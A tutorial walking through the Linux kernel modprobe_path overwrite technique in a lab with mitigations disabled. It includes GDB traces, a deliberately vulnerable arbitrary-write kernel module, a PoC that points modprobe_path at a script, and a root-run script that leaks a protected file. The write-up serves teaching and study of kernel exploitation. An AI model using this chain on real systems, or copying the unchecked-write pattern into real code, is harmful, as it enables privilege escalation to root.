


# `modprobe_path`: Abusing the Kernel's Binary Format Handler

## Table of Contents

* [Introduction](#introduction)
* [How the Kernel Executes Binaries](#how-the-kernel-executes-binaries)
  * [The Normal Case: Tracing `id`](#the-normal-case-tracing-id)
  * [The Negative Case: An Unknown Binary](#the-negative-case-an-unknown-binary)
* [What is `modprobe`?](#what-is-modprobe)
* [The `modprobe_path` Variable](#the-modprobe_path-variable)
* [Triggering Execution](#triggering-execution)
* [The Overwriting `modprobe_path` Technique](#the-overwriting-modprobe_path-technique)
  * [The Vulnerable Module](#the-vulnerable-module)
  * [`modprobe_path` Address](#modprobe_path-address)
  * [Overwriting `modprobe_path`](#overwriting-modprobe_path)
  * [Executing the Script](#executing-the-script)
* [Conclusion](#conclusion)

## Introduction

Once an attacker has an arbitrary kernel write primitive, the next question is usually what to overwrite to turn that primitive into code execution. One well-known answer is `modprobe_path`.

To understand why this variable is useful, we first need to look at something the kernel does during normal program execution. More specifically, let's examine what happens when the kernel tries to execute a file and how it reacts when it doesn't recognize the file's format.

Everything in this walkthrough runs inside a test environment using Debian 13 (Trixie) with Linux 5.15.176 running in QEMU. For simplicity, all the usual protections are disabled: KASLR, SMEP, and SMAP. That's intentional, so we can focus on understanding the technique itself rather than dealing with mitigations along the way.

## How the Kernel Executes Binaries

Let's first look at what happens when a userspace program calls `execv()`. The kernel doesn't immediately assume that the target is an ELF binary. Instead, it goes through the registered binary format handlers, represented by `struct linux_binfmt`, and checks whether any of them recognize the file.

```c
/*
 * This structure defines the functions that are used to load the binary formats that
 * linux accepts.
 */
struct linux_binfmt {
	struct list_head lh;
	struct module *module;
	int (*load_binary)(struct linux_binprm *);
	int (*load_shlib)(struct file *);
	int (*core_dump)(struct coredump_params *cprm);
	unsigned long min_coredump;	/* minimal dump size */
} __randomize_layout;
```
Source: [`include/linux/binfmts.h`](https://elixir.bootlin.com/linux/v5.15.176/source/include/linux/binfmts.h#L99)

So, depending on the file, the kernel might reach:

* `load_elf_binary()` for an ELF executable
* `load_script()` for a shell scrtipt file (starting with `#!`)
* Another registered handler for a different supported format

Let's watch this happen with GDB.

### The Normal Case: Tracing `id`

Let's see the normal path first. We'll use GDB to trace the kernel's execution when we run a simple binary: `id`. In the first terminal, we attach GDB to the kernel and set two breakpoints: one at `search_binary_handler` and the second at `load_elf_binary`.

```sh
tester@kernelLand:~$ gdb-multiarch ~/kernels/linux-5.15.176/artifacts/vmlinux -ex "target remote :1234"

pwndbg> break search_binary_handler
pwndbg> break load_elf_binary
pwndbg> continue
```

Once this is done, we switch to the QEMU terminal and run:

```sh
~ $ id
```

Back in the GDB terminal, we hit our breakpoint at `search_binary_handler(struct linux_binprm *bprm)`. This is where the kernel is about to go through the registered binary format handlers and look for one that recognizes the file. Let's check which file the kernel is trying to execute:

```sh
pwndbg> p bprm->filename
$1 = 0xffff8880031c0020 "/usr/bin/id"
```

As expected, we're looking at `/usr/bin/id`. Now let's continue execution:

```sh
pwndbg> continue
```

This time, we hit our second breakpoint at `load_elf_binary(struct linux_binprm *bprm)`. That tells us the kernel found the ELF handler and selected it for this file. When checking the backtrace we see:

```sh
pwndbg> bt
#0  load_elf_binary (bprm=0xffff888003fd0400) at fs/binfmt_elf.c:848
#1  0xffffffff8121fdc9 in search_binary_handler (bprm=0xffff888003fd0400) at fs/exec.c:1742
#2  exec_binprm (bprm=0xffff888003fd0400) at fs/exec.c:1783
#3  bprm_execve (bprm=0xffff888003fd0400, ...) at fs/exec.c:1852
#4  bprm_execve (bprm=0xffff888003fd0400, ...) at fs/exec.c:1814
#5  0xffffffff8122037d in do_execveat_common (...) at fs/exec.c:1957
...
#13 0xffffffff81e00110 in entry_SYSCALL_64 () at arch/x86/entry/entry_64.S:119
```

If we read this from the bottom toward the function we're currently stopped in, we can clearly see the normal execution path. The kernel receives the execution request, prepares the binary parameters, enters `search_binary_handler()`, finds a handler that recognizes the file, and eventually reaches `load_elf_binary()`. That's the **successful case**.

```text
entry_SYSCALL_64()
  └─ ...
       └─ do_execveat_common()
            └─ bprm_execve()
                 └─ exec_binprm()
                      └─ search_binary_handler()   [fs/exec.c:1742]
                           └─ load_elf_binary()    [fs/binfmt_elf.c:848]
```

Now let's see what changes when the kernel encounters a file that none of its binary format handlers recognize.

### The Negative Case: An Unknown Binary

This time, let's deliberately give the kernel a file it can't identify. Over in the QEMU terminal, we create a file containing unrecognized magic bytes and we make it executable:

```sh
/ $ cd /tmp
/tmp $ printf '\xDE\xAD\xBE\xEF' > badmagic
/tmp $ chmod +x badmagic
```

For this test, in our GDB session, we set a breakpoint on `call_modprobe()`:

```sh
break call_modprobe
continue
```

Now we switch back to the QEMU terminal and let's try to execute the unknown binary we just created:

```sh
/tmp $ ./badmagic
```

This time, execution eventually reaches our breakpoint at `call_modprobe()`. Again, let's have a look at the backtrace:

```sh
pwndbg> bt
#0  call_modprobe (module_name=0xffffc900001b7db8 "binfmt-efbe", wait=0x2) at kernel/kmod.c:79
#1  __request_module (wait=wait@entry=0x1, fmt=fmt@entry=0xffffffff825563bc "binfmt-%04x") at kernel/kmod.c:170
#2  0xffffffff8121fe63 in search_binary_handler (bprm=0xffff888003fd0400) at fs/exec.c:1757
#3  exec_binprm (bprm=0xffff888003fd0400) at fs/exec.c:1783
#4  bprm_execve (bprm=0xffff888003fd0400, ...) at fs/exec.c:1852
#5  bprm_execve (bprm=0xffff888003fd0400, ...) at fs/exec.c:1814
#6  0xffffffff8122037d in do_execveat_common (...) at fs/exec.c:1957
...
#14 0xffffffff81e00110 in entry_SYSCALL_64 () at arch/x86/entry/entry_64.S:119
```

So, as we can see, the execution path now looks different from the normal ELF case. Instead of `search_binary_handler()` finding the ELF handler and calling `load_elf_binary()`, the kernel fails to find any registered handler that recognizes the file. At that point, `search_binary_handler()` calls `__request_module()`, which in turn calls `call_modprobe()`.

In other words, when the kernel doesn't recognize the binary format, it reaches a **fallback path**. The kernel requests a binary-format module that might know how to handle that particular file type. That request eventually reaches `call_modprobe()`.

```text
entry_SYSCALL_64()
  └─ ...
       └─ do_execveat_common()
            └─ bprm_execve()
                 └─ exec_binprm()
                      └─ search_binary_handler()   [fs/exec.c:1757, no handler matched]
                           └─ __request_module()   [kernel/kmod.c:170]
                                └─ call_modprobe() [kernel/kmod.c:79]
```

Notice the `module_name` argument:

```text
"binfmt-efbe"
```

That `efbe` comes straight from the header of the `badmagic` file we created. The file's bytes were `DE AD BE EF`; the kernel reads two bytes starting at offset 2 (`BE EF`) and formats them as `%04x` (`__request_module(..., "binfmt-%04x")`). Different magic bytes would produce a different module name here.

As we're about to see, `call_modprobe()` uses the variable `modprobe_path` when constructing the userspace command that handles the module request. That's the connection this technique relies on: an unrecognized executable can reach the kernel's binary-format fallback, and that fallback eventually invokes the program specified by `modprobe_path`.



## What is `modprobe`?

Before going further, let's clarify what `modprobe` actually is, since it's the program at the center of this technique.

`modprobe` is a userspace utility, normally installed at `/sbin/modprobe`. Its job is to load and remove kernel modules. When a driver that the kernel needs isn't already loaded, `modprobe` is what resolves its dependencies and inserts it. Under normal circumstances, a user can run `modprobe` directly, for example `modprobe some_driver`. However, that's not what happens in our case.

What we traced in `call_modprobe()` is the kernel invoking `modprobe` on its own, from kernel context, with no user or shell involved. Here's the relevant part of the function:

```c
static int call_modprobe(char *module_name, int wait)
{
...

argv[0] = modprobe_path;
argv[1] = "-q";
argv[2] = "--";
argv[3] = module_name;	/* check free_modprobe_argv() */
argv[4] = NULL;

info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
				 NULL, free_modprobe_argv, NULL);
...
return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
```
Source: [`kernel/kmod.c`](https://elixir.bootlin.com/linux/v5.15.176/source/kernel/kmod.c#L69)

This is exactly what we saw in the negative-case backtrace: `argv[0]` comes from `modprobe_path`, `argv[1]` is `"-q"`, `argv[2]` is `"--"`, and `argv[3]` is the `module_name`, which in our case was `"binfmt-efbe"`.

From there, the kernel uses `call_usermodehelper_setup()` followed by `call_usermodehelper_exec()` to start the process. The helper runs with root privileges. This is actually a completely normal kernel mechanism. The kernel uses it whenever it needs userspace to help with something, such as loading a driver, finding a filesystem module, or handling a binary format that isn't currently available.

Now here's the important part for what we're looking at: the kernel doesn't permanently hardcode `/sbin/modprobe` as the program to execute. Instead, it looks up the path stored in `modprobe_path` whenever this helper needs to be launched. So let's take a closer look at `modprobe_path`, because that's the variable that makes this technique possible.

## The `modprobe_path` Variable

The variable `modprobe_path` is a global `char` array:

```c
extern char modprobe_path[]; /* for sysctl */
```
Source: [`include/linux/kmod.h`](https://elixir.bootlin.com/linux/v5.15.176/source/include/linux/kmod.h#L20)

And it is initialized by default to `/sbin/modprobe`:

```c
config MODPROBE_PATH
	string "Path to modprobe binary"
	default "/sbin/modprobe"
```
Source: [`init/Kconfig`](https://elixir.bootlin.com/linux/v5.15.176/source/init/Kconfig#L2298)

We can find it in the `.data` section of `vmlinux`:

```sh
$ readelf -s ~/kernels/linux-5.15.176/artifacts/vmlinux | grep modprobe_path
113298: ffffffff8284f5e0   256 OBJECT  GLOBAL DEFAULT   12 modprobe_path
```

Section index `12` is `.data`, and it's writable:

```sh
$ readelf -S ~/kernels/linux-5.15.176/artifacts/vmlinux | grep -A1 '\[12\]'
  [12] .data             PROGBITS         ffffffff82800000  01a00000
       0000000000286a00  0000000000000000  WA       0     0     4096
```

So, `modprobe_path` is just a writable global variable, like any other. Back to our GDB session as we're still breaking at `call_modprobe()` from the negative-case trace. Let's print it directly:

```sh
pwndbg> p modprobe_path
$1 = "/sbin/modprobe", '\000' <repeats 241 times>
pwndbg> 
```

Therefore, whatever string is stored in `modprobe_path` when `call_modprobe()` runs becomes the program the kernel executes as root. Change that string, and the kernel will execute something else the next time this fallback is triggered. **That's the whole technique.** Let's verify this behavior in GDB.

## Triggering Execution

For now, let's use GDB to simulate our arbitrary write primitive. We'll overwrite `modprobe_path` ourselves, then trigger the fallback path just as we did in the negative case.

First, on the QEMU terminal, let's write a script, `evil.sh`, that runs the `id` command and stores the output in `/tmp/pwned`:

```sh
/tmp $ printf '#!/bin/sh\nid > /tmp/pwned\n' > /tmp/evil.sh
/tmp $ chmod +x /tmp/evil.sh
```

Back in GDB, we overwrite `modprobe_path` to set it to our `evil.sh`:

```sh
pwndbg> set variable modprobe_path = "/tmp/evil.sh"
pwndbg> p modprobe_path
$1 = "/tmp/evil.sh", '\000' <repeats 243 times>
pwndbg> continue
```

Now, let's switch to the QEMU terminal and trigger the fallback path again by executing our unrecognized file:

```sh
/tmp $ ./badmagic
./badmagic: line 1: ޭ��: not found
/tmp $ cat /tmp/pwned
uid=0(root) gid=0(root)
/tmp $
```

That `not found` line is just the shell's own fallback and isn't relevant here. The `/tmp/pwned` file is what matters. Once we read it, we see `uid=0(root) gid=0(root)`. This proves that the kernel executed `/tmp/evil.sh` as root, triggered entirely by an unprivileged `execv()` on a file it didn't recognize.

## The Overwriting `modprobe_path` Technique

GDB was useful for showing us what was happening inside the kernel, but it was never meant to represent a realistic attack scenario. What this technique actually requires is a **kernel write primitive**.

In a real exploit, that primitive could come from a vulnerability such as a heap overflow, a use-after-free, or a missing bounds check. The exact bug isn't important for the technique we're demonstrating here. What matters is the result: the ability to write attacker-controlled data to an attacker-chosen address in kernel memory.

To demonstrate the complete technique, we need four things:

- A kernel write primitive
- The address of `modprobe_path`
- A script for the kernel to execute
- A userspace exploit to trigger the process


We created a small kernel module with a deliberately unchecked write. The module acts as a stand-in for the kind of kernel vulnerability that would normally provide this primitive.

### The Vulnerable Module

Now let's look at the component that gives us the write primitive: `vulnwrite.c`. The module creates `/dev/vulnwrite` and exposes a single `ioctl` operation. That operation receives a structure containing two fields:

- The kernel address `addr` to write to
- The data to write there

```c
struct vuln_write_req {
	unsigned long addr;
	char data[256];
};
...
static long vulnwrite_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
	struct vuln_write_req req;
	...

	if (copy_from_user(&req, (void __user *)arg, sizeof(req)))
		return -EFAULT;

	/* No validation on req.addr: arbitrary kernel write. */
	memcpy((void *)req.addr, req.data, sizeof(req.data));
	...
}
```

The `copy_from_user()` copies the entire request from userspace into the kernel. That includes both the target address, `req.addr`, and the attacker-controlled payload in `req.data`. Then comes the line:

```c
memcpy((void *)req.addr, req.data, sizeof(req.data));
```

At this point, the module performs no validation on `req.addr`. So the caller controls both sides of the operation: where the data goes and what data gets written there. In other words, whatever kernel address the caller places in `req.addr` becomes the destination for the 256-byte payload in `req.data`. That's the arbitrary kernel write primitive we're using for this walkthrough.

We just need to build the module against the kernel's build tree and load it into our test environment, switching to the QEMU terminal:

```sh
~ $ su
/home/ctf # insmod vulnwrite.ko
/home/ctf # exit
~ $ ls -la /dev/vulnwrite
crw-rw-rw-    1 root     root       10, 125 Aug 20 13:20 /dev/vulnwrite
```

### `modprobe_path` Address

Because KASLR is disabled in this lab and `kptr_restrict` is set to `0`, the address of `modprobe_path` is visible and remains static. That means we can read it directly from `/proc/kallsyms`, even as the unprivileged user:

```sh
~ $ cat /proc/kallsyms | grep modprobe_path
ffffffff8284f5e0 D modprobe_path
```

### Overwriting `modprobe_path`

The trigger side is handled by `poc.c`, a small program whose main job is to overwrite `modprobe_path` with the path to our script, `/tmp/evil.sh`.

```c
struct vuln_write_req {
	unsigned long addr;
	char data[256];
};
...
#define MODPROBE_PATH_ADDR 0xffffffff8284f5e0UL

int main(void)
{
	int fd;
	const char *payload = "/tmp/evil.sh";
	struct vuln_write_req req = { .addr = MODPROBE_PATH_ADDR };

	strncpy(req.data, payload, sizeof(req.data) - 1);

	fd = open("/dev/vulnwrite", O_RDWR);
	...

	if (ioctl(fd, VULN_WRITE, &req) < 0) {
		perror("ioctl");
		return 1;
	}
	...
}
```
The program creates the same `vuln_write_req` structure that the vulnerable kernel module expects. The target address is set to `MODPROBE_PATH_ADDR`, the address we found earlier. Then, the payload is set to the script `/tmp/evil.sh`.

The program copies that path into `req.data`, opens `/dev/vulnwrite`, and sends the request to the module through `ioctl()`. From there, the vulnerable module takes over and performs the unchecked kernel write.

Next, we compile the program statically and make sure our test environment is set up so both the module and the compiled PoC are available inside QEMU. Now it's time to run the PoC:

```sh
~ $ ./poc
wrote "/tmp/evil.sh" to modprobe_path
```

Looking at the output, we can see that the write completed successfully.

### Executing the Script

At this point, the only thing left is to trigger the binary-format fallback again. As we saw earlier, this happens when we try to execute a file whose format the kernel doesn't recognize.

To make the demonstration more meaningful, let's have the script perform an action that the unprivileged user cannot normally perform: read a file that only root is allowed to access. First, let's create a flag file inside `/root` and restrict its permissions so that only root can read it:

```sh
~ $ su
~ # echo secret > /root/flag
~ # chmod 400 /root/flag
~ # exit
```

Now, let's confirm that the regular user can't read it directly:

```sh
~ $ cat /root/flag
cat: can't open '/root/flag': Permission denied
```

Next, let's create the script that the overwritten `modprobe_path` points to. For this demonstration, the script reads the protected file, writes its contents to `/tmp/leaked_flag`, and changes the permissions so the unprivileged user can read the result:

```sh
~ $ printf '#!/bin/sh\ncat /root/flag > /tmp/leaked_flag\nchmod 666 /tmp/leaked_flag\n' > /tmp/evil.sh
~ $ chmod +x /tmp/evil.sh
```

Just like in the earlier negative-case trace, we use `/tmp/badmagic`, so let's run it:

```sh
~ $ /tmp/badmagic
/tmp/badmagic: line 1: ޭ��: not found
```

And now let's read `/tmp/leaked_flag`:

```sh
~ $ cat /tmp/leaked_flag
secret
```

We can see that the unprivileged user can now read the contents that it couldn't access directly.

At this point, the full chain comes together:

1. An unprivileged process gains a kernel write primitive through a vulnerability.
2. That primitive is used to overwrite `modprobe_path`.
3. The new value points to an attacker-controlled script.
4. An attempt to execute an unrecognized binary triggers the kernel's binary-format fallback.
5. The fallback uses the overwritten `modprobe_path`.
6. The privileged helper executes the attacker-controlled script.



So, stepping back and looking at the complete technique, the core idea is surprisingly small: **one arbitrary kernel write to a global variable, followed by an ordinary execution request that reaches the kernel's fallback path**.

## Conclusion

Looking at the technique as a whole, we can see why `modprobe_path` is such an attractive target: there is no need for a control-flow hijack, ROP chain, or collection of gadgets.

It is also worth taking a step back and looking at how much the disabled protections simplified the process here, something we would not expect to see in a real-world scenario. The broader lesson is what matters most: when a kernel relies on a plain global variable for a security-sensitive operation, a single unintended kernel write can potentially turn that variable into a path to root.
